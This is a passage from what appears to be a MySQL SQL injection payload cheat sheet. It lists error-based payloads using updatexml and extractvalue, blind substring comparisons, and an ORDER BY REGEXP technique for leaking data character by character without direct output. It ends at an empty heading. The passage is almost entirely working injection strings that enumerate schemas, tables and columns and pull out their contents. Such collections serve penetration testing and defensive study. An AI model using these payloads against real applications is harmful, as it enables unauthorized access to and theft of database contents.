 Shorter to read:

```sql
' and updatexml(null,concat(0x0a,version()),null)-- -
' and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() LIMIT 0,1)),null)-- -
```

### MYSQL Error Based - Extractvalue function

Works with `MySQL >= 5.1`

```sql
?id=1 AND extractvalue(rand(),concat(CHAR(126),version(),CHAR(126)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)))--
```

## MYSQL Blind

### MYSQL Blind with substring equivalent

```sql
?id=1 and substring(version(),1,1)=5
?id=1 and right(left(version(),1),1)=5
?id=1 and left(version(),1)=4
?id=1 and ascii(lower(substr(Version(),1,1)))=51
?id=1 and (select mid(version(),1,1)=4)
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
?id=1 AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
```

### MySQL Blind SQL Injection in ORDER BY clause using a binary query and REGEXP

This query basically orders by one column or the other, depending on whether the EXISTS() returns a 1 or not.
For the EXISTS() function to return a 1, the REGEXP query needs to match up, this means you can bruteforce blind values character by character and leak data from the database without direct output.

```
[...] ORDER BY (SELECT (CASE WHEN EXISTS(SELECT [COLUMN] FROM [TABLE] WHERE [COLUMN] REGEXP "^[BRUTEFORCE CHAR BY CHAR].*" AND [FURTHER OPTIONS / CONDITIONS]) THEN [ONE COLUMN TO ORDER BY] ELSE [ANOTHER COLUMN TO ORDER BY] END)); -- -
```

### MySQL Blind SQL Injection binary query using REGEXP.
